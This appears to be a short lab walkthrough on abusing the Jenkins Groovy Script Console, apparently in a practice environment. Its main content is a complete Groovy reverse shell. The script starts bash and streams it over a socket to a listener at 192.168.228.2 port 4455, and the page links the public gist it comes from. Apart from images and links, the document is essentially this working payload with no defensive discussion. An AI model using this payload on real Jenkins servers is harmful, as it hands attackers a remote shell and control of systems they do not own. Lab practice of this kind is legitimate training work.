





# jenkins-abusing-groovy-script-console

#### Objective: Abuse Groovy Script console to get a shell on the Jenkins machine!

----

- [Jenkins](http://jenkins:8080/)
- [Gitlab](http://gitlab/root)
- [frohoff/revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

----

```sh
String host="192.168.228.2";
int port=4455;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

----











----

EOF